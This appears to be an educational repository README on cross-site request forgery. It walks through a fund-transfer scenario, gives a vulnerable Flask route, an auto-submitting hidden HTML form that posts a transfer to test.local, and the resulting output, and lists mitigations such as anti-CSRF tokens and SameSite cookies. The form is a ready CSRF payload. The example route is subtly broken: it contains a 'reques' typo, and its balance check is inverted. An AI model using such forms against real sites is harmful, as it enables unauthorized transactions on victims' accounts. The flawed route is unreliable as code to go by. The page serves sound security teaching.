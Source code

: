 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/cross-site-request-forgery/main/cross-site-request-forgery.png"></p>

A threat actor may trick an authenticated or trusted victim into transmitting unauthorized actions on their behalf.

## Example #1
1. Threat actor crafts an exploit URL for a fund transfer from a vulnerable website
2. Bob logs in to the vulnerable website (Bob is authenticated - session cookie is saved)
3. Threat actor tricks Bob into clicking on the exploit URL
4. Bob clicks on the exploit URL
5. Bob's browser loads the session cookie and performs a fund transfer

## Code
#### Target-Logic
```py
@app.route("/send_money", methods=["POST"])
@login_required
def send_money():
   ...
   amount = int(request.form.get("amount"))
   to_user = get_user(int(reques.form.get("to_user")))
   if current_user:
      if current_user['balance'] <= amount:
         current_user['balance'] -= amount
         to_user['balance'] += amount
         return make_response({"transfer":"success"}, 200)
   return make_response({"transfer":"failed"}, 200)
```

#### Victim-Executes
```html
<html>
  <body>
    <form action="https://test.local/send_money" method="POST">
      <input type="hidden" name="amount" value="1000"/>
      <input type="hidden" name="to_user" value="ABC-999"/>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### Target-In
```
amount=1000
to_user=ABC-999
```

#### Target-Output
```json
{"transfer":"success"}
```

## Impact
Vary

## Risk
- Read & modify data
- Execute commands

## Redemption
- Header verification
- Challenge-response
- Anti-csrf tokens
- Same-site cookies

## Names
 - XSRF
 - Sea Surf
 - Session Riding
 - Cross-Site reference forgery
 - Hostile linking

## ID
776dd60c-c1de-46a3-a104-25cd836e24b6

## References
- [wiki](https://en.wikipedia.org/wiki/cross-site_request_forgery)
